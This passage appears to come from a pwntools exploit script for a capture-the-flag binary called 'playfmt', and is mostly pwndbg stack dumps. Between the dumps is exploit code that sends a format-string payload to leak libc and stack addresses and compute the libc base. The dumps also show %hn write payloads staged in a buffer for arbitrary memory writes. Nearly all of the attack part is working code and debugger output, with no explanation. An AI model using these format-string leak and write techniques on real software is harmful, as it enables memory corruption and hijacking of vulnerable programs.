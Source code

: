 ```python
05:0014│      0xffa077d4 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffa077d8 —▸ 0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
07:001c│      0xffa077dc —▸ 0x8048584 (play+59) ◂— nop
08:0020│      0xffa077e0 —▸ 0xf7eb0d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│      0xffa077e4 ◂— 0x0
0a:0028│      0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
0b:002c│      0xffa077ec —▸ 0x80485b1 (main+42) ◂— nop
0c:0030│      0xffa077f0 —▸ 0xf7eb03dc (__exit_funcs) —▸ 0xf7eb11e0 (initial) ◂— 0x0
0d:0034│      0xffa077f4 —▸ 0xffa07810 ◂— 0x1
0e:0038│      0xffa077f8 ◂— 0x0
0f:003c│      0xffa077fc —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
10:0040│      0xffa07800 ◂— 0x1
11:0044│      0xffa07804 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
12:0048│      0xffa07808 ◂— 0x0
13:004c│      0xffa0780c —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
14:0050│      0xffa07810 ◂— 0x1
15:0054│      0xffa07814 —▸ 0xffa078a4 —▸ 0xffa083d6 ◂— './playfmt'
16:0058│      0xffa07818 —▸ 0xffa078ac —▸ 0xffa083e0 ◂— 'NO_AT_BRIDGE=1'
17:005c│      0xffa0781c ◂— 0x0
... ↓
'''
gdb.attach(io, "b *do_fmt+64\nc")
io.send("..%8$p....%6$p..11111111\0")
io.recvuntil("..")
libc.address = int(io.recvuntil("..", drop = True), 16) - libc.sym['_IO_2_1_stdout_']
success("libc.address -> {:#x}".format(libc.address))
io.recvuntil("..")
stack = int(io.recvuntil("..", drop = True), 16) - 0x28
success("stack -> {:#x}".format(stack))
pause()

'''
pwndbg> x/3s 0x804a060
0x804a060 <buf>:	"%30684c%21$hn%1"...
0x804a06f <buf+15>:	"6c%22$hn2222222"...
0x804a07e <buf+30>:	"2"
pwndbg> stack 25
00:0000│ esp  0xffa077c0 —▸ 0x804a060 (buf) ◂— 0x36303325 ('%306')
01:0004│      0xffa077c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffa077c8 ◂— 0x4
03:000c│      0xffa077cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffa077d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
05:0014│      0xffa077d4 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffa077d8 —▸ 0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
07:001c│      0xffa077dc —▸ 0x8048584 (play+59) ◂— nop
08:0020│      0xffa077e0 —▸ 0xf7eb0d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│      0xffa077e4 ◂— 0x0
0a:0028│      0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
0b:002c│      0xffa077ec —▸ 0x80485b1 (main+42) ◂— nop
0c:0030│      0xffa077f0 —▸ 0xf7eb03dc (__exit_funcs) —▸ 0xf7eb11e0 (initial) ◂— 0x0
0d:0034│      0xffa077f4 —▸ 0xffa07810 ◂— 0x1
0e:0038│      0xffa077f8 ◂— 0x0
0f:003c│      0xffa077fc —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
10:0040│      0xffa07800 ◂— 0x1
11:0044│      0xffa07804 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
12:0048│      0xffa07808 ◂— 0x0
13:004c│      0xffa0780c —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
14:0050│      0xffa07810 ◂— 0x1
15:0054│      0xffa07814 —▸ 0xffa078a4 —▸ 0xffa083d6 ◂— './playfmt'
16:0058│      0xffa07818 —▸ 0xffa078ac —▸ 0xffa083e0 ◂— 'NO_AT_BRIDGE=1'
17:005c│      0xffa0781c ◂— 0x0
... ↓
'''
```